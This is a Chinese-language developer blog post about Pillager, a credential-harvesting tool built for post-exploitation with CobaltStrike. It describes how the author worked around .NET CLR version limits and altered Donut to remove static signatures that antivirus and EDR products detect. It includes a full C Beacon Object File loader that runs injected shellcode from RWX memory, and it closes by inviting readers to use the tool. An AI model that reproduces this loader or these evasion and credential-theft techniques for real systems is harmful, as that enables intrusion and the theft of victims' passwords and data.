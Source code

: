 ```yaml
---
title: Pillager开发记录-1
date: 2023-4-15 05:40:56
categories: 
- Forensics
tags:
- Forensics
---
```

今年上半年，在开发 CobaltStrike 插件期间，没用遇到合适且长期更新的信息收集工具，便决定自己制作一款，也就有了[Pillager](https://github.com/qwqdanchun/Pillager)项目。

这款工具旨在收集机器上浏览器，聊天软件，已经其他常用工具的凭证、记录等敏感信息，从而进行进一步的后渗透工作。

# 思路的确定

最初的想法只是为了制作一个小巧简介的 BOF ，但是后期研究发现使用 BOF 开发并不合适，综合考虑下选择了使用C#开发。进而就要考虑内存执行 C# 的问题，以及 C# 不可避免的 CLR 环境兼容问题。这时我就想到了 [Donut](https://github.com/TheWover/donut) 工具，使用其打包 shellcode 可以制作一个很简单的 BOF 去加载 shellcode 。

# CLR环境兼容问题

这里其实解决起来很简单，用到了之前写 C# 马时就曾经使用过的一个小技巧，也就是 .Net Framework v3.5 生成的文件，修改其 MetaData Header 中的 VersionString 为 `v4.0.30319`即可在 v4.x 的环境下正常使用。

经过测试，系统会根据这个字符串指定 CLR 版本，在手动加载 CLR 环境并加载 Assembly 时，只要自己指定正确版本即可，无需修改字符串。

当然，这样做对开发时使用的库有一定的要求，需要尽量避免使用第三方库，但是这种问题就很好解决了。

# Donut相关

Donut 本身就是一个很完善的项目，但是对于此处使用，仍然有一些可以改进的地方，首先是在 Donut 内完成了上文的 CLR 兼容，其次是删除了与 .Net 加载无关的代码，并处理了两处 Donut 被 AV/EDR 标记的静态特征，最大程度的保证了可用性和体积的最小化

# BOF加载器

为了方便 CobaltStrike 使用，我制作了一个非常简单的 BOF 去加载生成的 shellcode ，后期有需要，也可以对此进行更改以避免分配 RWX 内存的行为

```c
#include <windows.h>
#include "beacon.h"

DECLSPEC_IMPORT LPVOID   WINAPI   KERNEL32$VirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
DECLSPEC_IMPORT BOOL     WINAPI   KERNEL32$WriteProcessMemory(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T * lpNumberOfBytesWritten);
DECLSPEC_IMPORT HANDLE WINAPI KERNEL32$CreateThread(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
DECLSPEC_IMPORT HANDLE  WINAPI KERNEL32$GetCurrentProcess (VOID);

VOID go( 
	IN PCHAR Buffer, 
	IN ULONG Length 
) 
{
    datap   parser;
    LPBYTE  lpShellcodeBuffer = NULL;
    DWORD   dwShellcodeBufferSize = 0;
    LPVOID pMem;
    SIZE_T bytesWritten = 0;
    DWORD dwThreadId = 0;

    BeaconDataParse(&parser, Buffer, Length);
    lpShellcodeBuffer = (LPBYTE) BeaconDataExtract(&parser, (int*)(&dwShellcodeBufferSize));
    pMem = KERNEL32$VirtualAlloc(0, dwShellcodeBufferSize,MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    KERNEL32$WriteProcessMemory(KERNEL32$GetCurrentProcess(), pMem, lpShellcodeBuffer, dwShellcodeBufferSize, &bytesWritten);
    KERNEL32$CreateThread(0, 0, pMem, 0, 0, &dwThreadId);
}
```

# 结论

至此，基本的准备工作已经就绪，后续我会陆续的更新文章，介绍各个收集目标的具体原理及使用方法

此工具开源于 [https://github.com/qwqdanchun/Pillager](https://github.com/qwqdanchun/Pillager) ，欢迎大家关注和使用
